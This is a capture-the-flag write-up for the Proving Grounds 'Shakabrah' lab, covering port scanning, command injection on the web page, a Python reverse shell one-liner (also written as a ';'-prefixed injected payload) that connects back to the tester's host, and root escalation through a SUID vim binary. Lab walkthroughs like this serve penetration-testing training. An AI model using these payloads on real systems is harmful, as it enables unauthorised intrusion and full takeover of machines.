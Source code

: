 ```yaml
---
title: "Proving grounds Play: Shakabrah"
layout: post
date: 2023-09-17 01:00
categories: writeup
---
```


Proving grounds Play - Shakabrah CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33b96d350bc5c45a86e0261095487782 (RSA)
|   256 a80fa7738302c1978c25bafea5115f74 (ECDSA)
|_  256 fce99ffef9e04d2d76eecadaafc3399e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/web.png)

The target is vulnerable to RCE.

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/rce.png)

## Obtain Reverse shell

Obtain reverse shell using python3 reverse shell.

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.226",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

```sh
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.226",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Final payload to get reverse shell.

## Privilege Escalation

### SUID

```sh
www-data@shakabrah:/home/dylan$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/vim.basic #exploitable
/usr/bin/newuidmap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
```

### GTFO Bins Exploit

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `vim` is compiled with Python support. Prepend :py3 for Python 3.

```sh
./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

```sh
www-data@shakabrah:/var/www/html$ /usr/bin/vim.basic
:
:py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")
```

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/gtfo.png)

**Root Obtained**

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/root.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).